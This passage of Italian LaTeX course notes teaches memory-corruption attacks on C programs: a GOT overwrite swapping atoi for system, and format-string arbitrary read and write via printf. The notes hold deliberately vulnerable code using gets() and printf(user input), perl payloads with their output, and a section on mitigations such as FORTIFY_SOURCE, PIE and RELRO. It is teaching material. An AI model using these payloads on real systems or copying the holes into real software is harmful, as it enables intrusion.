    
\includegraphics[width=.5\linewidth]{res/GOT_corruption.png}
    \caption{}
\end{figure}

Supponiamo di avere il seguente codice:
\begin{lstlisting}[language=C]
    struct person{
        char age [4];
        char *name;
    };
    int main (...) {
        struct person p;
        p.name = malloc (20);
        gets(p.age);
        gets(p.name);
        if (atoi(p.age) < 18)
        printf("disclamer\n");
        return 0;
    }
\end{lstlisting}
Avremo il seguente comportamento:
\begin{lstlisting}[language=bash]
    gdb -q ./got

    (gdb) p atoi
    $1 = 0x80483f0 <atoi@plt >
    (gdb) r
    ^C
    (gdb) p system
    $1 = 0xb7e63310 <__libc_system >
    (gdb) q
\end{lstlisting}
Questo comportamento è sfruttabile per modificare l'indirizzo della funzione \textit{atoi} caricata nel .got.plt sostituendola con l'indirizzo di \textit{system} dalla libreria \textit{libc}:
\begin{lstlisting}[language=bash]
    perl -e 'print "id\x00\x00" ,\ 
    "\x24\xa0\x04\x08\n" ,\
    "\x10\x33\xe6\xb7"' | ./got

    uid =1000( vagrant) gid =1000( vagrant) groups =1000( vagrant) 
    disclamer
\end{lstlisting}
(\textbf{Ricorda:} sia \textit{atoi} sia \textit{system} hanno la stessa firma).
\begin{lstlisting}[language=C]
    int atoi(const char *nptr);
    int system(const char *command);
\end{lstlisting}

\subsection*{Memory corruption: string format}
La funzione \textbf{\textit{*printf}} può essere utilizzata per leggere o scrivere in modo arbitrario da un attaccante se posizionata nel posto sbagliato del codice.

Un esempio di uso sbagliato è il seguente:
\begin{lstlisting}[language=C]
    printf(argv [1]);
\end{lstlisting}
l'utente in questo modo potrà controllare il formato effettuando una fuga di informazioni o scrivendo in varie parti della memoria.
La funzione \textit{printf} è una variarg function, ciò significa che avrà un puntatore ad un array per prendere i vari elementi muovendosi dal puntatore al successi elemento.
\newline
\begin{minipage}{0.7\textwidth}
    \begin{lstlisting}[language=C]
        printf("%x %d %c %p\n", a);
    \end{lstlisting}
\end{minipage}
\begin{minipage}{0.5\textwidth}
    \centering
    \begin{tabular}{|c|}
        \hline
        a \\
        \hline
        \%x \\
        \hline
        \%d \\
        \hline
        \%p \\
        \hline
    \end{tabular}
\end{minipage}

L'utente, semplicemente fornendo il giusto formato, sarà in grado di leggere valori nello stack, relativi ai parametri della \textit{printf}.
\begin{lstlisting}[language=bash]
    ./vuln "%x %x %x %x"; echo
    
    b7fff000 804844b b7fd0000 8048440
\end{lstlisting}

Un elemento del formato standard è composto dalle seguenti parti:

\%[N\$][M]F dove:
\begin{itemize}
    \item \textit{\textbf{F}}, formato, effettua l'interpretazione dei parametri;
    \item \textit{\textbf{N}}, indica la posizione dei parametri;
    \item \textit{\textbf{M}}, indica il padding del formato o degli argomenti del paramtro d'interpretazione (e.g. pad hex numero di 8 zeri o quante cifre di un numero decimale stampare).
\end{itemize}

\begin{lstlisting}[language=C]
    printf("%1$02x %1 $02x %2$02x\n", 1, 2);
\end{lstlisting}

\begin{lstlisting}[language=bash]
    ./vuln

    01 01 02
\end{lstlisting}

Oltre a leggere è possibile utilizzare la \textit{printf} per scrivere valori arbitrari in memoria (l'opposto di \%s), per farlo bisognerà utilizzare il formato \%n.
Scriverà il numero di caratteri scritti dall'invoacazione della \textit{printf} nel valore puntatato dall'argomento.
\begin{lstlisting}[language=C]
    int charprinted;
    printf("ciao%n\n", &charprinted);
    printf("%d\n", charprinted);
\end{lstlisting}
\begin{lstlisting}[language=bash]
    ./ example

    ciao
    4
\end{lstlisting}

\subsection{Arbitrary read}
Utilizzando i concetti spiegati precedente potremo utilizzare \textit{printf} per costruire un arbitrary read:
\begin{lstlisting}[language=C]
    int main (...) {
        char userpass [128];
        char pass[] = "secretpass \0";
        printf("pass @ %p\n", pass);
        gets(userpass); printf(userpass);
        gets(userpass);
        if (! strcmp(pass , userpass )) printf("flag");
    }
\end{lstlisting}

\begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %7\$s"' | ./ arbitrary_read
    
    pass @ 0xbffff670
    .... secretpass
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente potremo costruire anche una arbitrary write, trovando l'indirizzo del parametro e utilizzando \textit{\%s} potremo stampare un valore semi-arbitrario della memoria.
\begin{lstlisting}[language=C]
    char pass[] = "secretpass";
    printf("pass @ %p\n", pass);
    gets(userpass); printf(userpass);
    if (! strcmp(pass , userpass )) printf("flag");
\end{lstlisting}

\begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %65c%7\$n%7\$s|\nE\n"' |
    
    ./ arbitrary_read
    pass @ 0xbffff670
    .... p|E
    flag
\end{lstlisting}

\subsection{Mitigation}
Per completare il discorso sulla sicurezza finiremo a parlare degli ultimi sistemi non ancora menzionati:
\begin{figure}[h!]
    \centering
    \includegraphics[width=.5\linewidth]{res/mitigation_memory.png}
    \caption{}
\end{figure}

\subsubsection{Mitigation: Fortify}
\textbf{Fortify source} agginge alcuni test comuni (a tempo di compilazione) per rimuovere eventuali problemi di overflow da parte dei buffer delle funzioni, e.g. \textit{strcpy}.
Questo catturerà solo i comportamenti comuni per quella famiglia di compilatori e per le librerie compilate.
\begin{lstlisting}[language=bash]
    gcc -D_FORTIFY_SOURCE=1
\end{lstlisting}

\subsubsection{Mitigation: ASLR}
fare riferimento alla spiegazione precedente.

\subsubsection{Mitigation: PIE}
ASLR non converte gli indirizzi dei binari ma solo la parte dinamica del file ELF(lo stack, le variabili globali e le librerie caricate), quindi se abbiamo una funzione nella sezione \textit{.text} sarà possibile inserirla nel \textit{.got} o \textit{.plt} per poi eseguirla.
\begin{lstlisting}[language=C]
    void foo(void) { system("ls"); }
    int main(int argc , char **argv) {
        int i = 0;
        uint8_t *base = (uint8_t *) printf;
        uint32_t ** got_entry = (uint32_t **)( base +2);
        uint32_t *got_plt_entry = *got_entry;
        printf("GOT 0x%08x\n", (uint32_t)printf);
        printf("LIBC 0x%08x\n", *got_plt_entry);
        printf("FOO 0x%08x\n", (uint32_t)foo);
    }
\end{lstlisting}
\begin{lstlisting}
    ./test

    GOT 0x08048310
    LIBC 0xb759e410
    FOO 0x0804844d

    ./test

    GOT 0x08048310
    LIBC 0xb75db410
    FOO 0x0804844d
\end{lstlisting}

Per questa problematica si è pensato quindi di inserire il \textbf{PIE (Position Independent Executable)}, compilandolo in questo modo l'intero codice sarà randomizzato ed eseguito con indirizzi casuali.

\subsubsection{Mitigation: RELRO}
\textbf{RELRO (Relocation Read Only)} è una mitigazione applicata alle sezioni .got e .plt.
Nella versione parziale applica le seguenti politiche:
\begin{itemize}
    \item cambia il layout della memoria per essere meno vulnerabile agli attacchi;
    \item imposta il .got in modalità di sola lettura (ma non il .got.plt), le variabili globali esportate saranno protette.
\end{itemize}

La mitigazione RELRO ha anche un'implementazione totale che altre alle precedenti politiche ne aggiunge altre:
\begin{itemize}
    \item carica ogni funzione a tempo di caricamento (disabilita il lazy loading);
    \item imposta il .got.plt in modalità di sola lettura, la tabella delle funzioni dinamiche non potrà essere scritta;
\end{itemize}


\end{document}